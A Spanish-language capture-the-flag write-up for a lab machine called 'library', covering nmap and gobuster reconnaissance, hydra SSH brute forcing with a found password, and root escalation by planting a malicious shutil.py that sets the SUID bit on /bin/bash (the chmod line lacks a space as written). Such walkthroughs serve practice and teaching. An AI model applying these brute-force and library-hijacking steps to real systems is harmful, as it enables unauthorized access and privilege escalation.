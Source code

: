 ```yaml
---
Maquina: library
SO: Linux
Explotación: Análisis web y fuerza bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241102172908.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241102173026.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional mediante Gobuster y nos encontramos lo siguiente:

```bash
gobuster dir -u http://172.17.0.2 -w /snap/seclists/current/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.py,.js,.txt
```

![[Pasted image 20241102173228.png]]

Vemos un código interesante si accedemos al index.php -> JIFGHDS87GYDFIGD

![[Pasted image 20241102173256.png]]

Podría ser muchas cosas... un mensaje cifrado, una passwd... vamos a investigar un poco mas a ver si descubrimos de que se trata.

```bash
hydra -L /snap/seclists/current/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

Parece que si que era una contraseña de un usuario...

![[Pasted image 20241102191133.png]]

Vamos a intentar iniciar sesión en el SSH yyyyy

![[Pasted image 20241102181854.png]]

Vamos a explorar los permisos y directorios importantes...

```bash
sudo -l
```

![[Pasted image 20241102181946.png]]

Pues vamos a probar a ver si gtfo bins nos da algún consejillo jiji...

![[Pasted image 20241102182242.png]]

ooooooooooo... Carlos como pudiste crearme estas ilusiones :c

Igualmente podemos intentar probar con el código que hay en opr/script.py

```python
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

```

Como parece que toma la libreria shutil para realizar la opción de copiar podemos generar la nuestra propia en /opt/ y que la ejecute nada más pedirle que realice el script.py. Para ello vamos a crear la siguiente librería en /opt/.

```python
import os
os.system("chmod4777 /bin/bash")
```

Ahora tan solo tenemos que ejecutar el comando en el que tenemos privilegios de root.

```bash
sudo -u root python3 /opt/script.py
```

Y ver si con suerte ha surtido efecto

![[Pasted image 20241102190942.png]]

Parece ser que tenemos vía libre para ejecutar /bin/bash como si fueramos root.

```bash
/bin/bash -p
```

Y sorpresa!

![[Pasted image 20241102191057.png]]
